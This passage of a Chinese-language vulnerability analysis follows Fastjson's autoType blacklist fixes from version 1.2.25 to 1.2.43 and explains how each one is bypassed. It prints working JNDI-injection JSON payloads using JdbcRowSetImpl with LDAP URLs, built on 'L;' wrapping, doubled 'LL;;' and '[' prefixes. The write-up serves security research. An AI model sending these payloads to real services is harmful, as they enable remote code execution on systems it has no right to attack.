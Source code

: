 使用idea对比两个jar包发现改为了checkAutoType()方法
![image.png](https://y4er.com/img/uploads/20200426110544.png)

跟进checkAutoType()发现
![image.png](https://y4er.com/img/uploads/20200426116206.png)

增加了类前缀黑名单白名单判断，在1.2.25版本中AutoTypeSupport默认false，需要显示关闭白名单

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```
在关闭了AutoTypeSupport之后仍然需要绕过黑名单，以startsWith判断
![image.png](https://y4er.com/img/uploads/20200426117781.png)
但是在跟了TypeUtils.loadClass()之后会发现
![image.png](https://y4er.com/img/uploads/20200426110879.png)
如果classname以`[`开头loadClass会自动去掉，还有就是开头`L`结尾`;`的也会去掉，那么我们有了新的绕过方法：

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true); // 必须显示关闭白名单
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"ldap://localhost:1389/#Calc", "autoCommit":true}
```
7u21的链同理，在1.2.25之后所谓的绕过都是在显示关闭白名单的条件下绕过的。

### 1.2.42绕过
在1.2.41中`L;`的方法测试可以，1.2.42中不行
![image.png](https://y4er.com/img/uploads/20200426118932.png)

对比jar发现ParserConfig中黑名单改为hash
![image.png](https://y4er.com/img/uploads/20200426114517.png)
classname截取`L;`
![image.png](https://y4er.com/img/uploads/20200426115617.png)

通过计算hash让我们不知道黑名单是什么类，但是加密方式在`com.alibaba.fastjson.util.TypeUtils#fnv1a_64`是有的
![image.png](https://y4er.com/img/uploads/20200426116258.png)
通过变量常用的jar、类、字符串碰撞hash得到黑名单，有一个项目已经做好了：https://github.com/LeadroyaL/fastjson-blacklist

绕过也比较简单，`com.alibaba.fastjson.parser.ParserConfig#checkAutoType`截取一次，`com.alibaba.fastjson.util.TypeUtils#loadClass`截取一次，那么双写就可以绕过

```json
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"ldap://localhost:1389/#Calc", "autoCommit":true}
```
### 1.2.43
判断了是否以`LL`开头，直接抛出异常
![image.png](https://y4er.com/img/uploads/20200426118900.png)

但是`[`还可以
```json
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"ldap://localhost:1389/Exploit", "autoCommit":true}
```
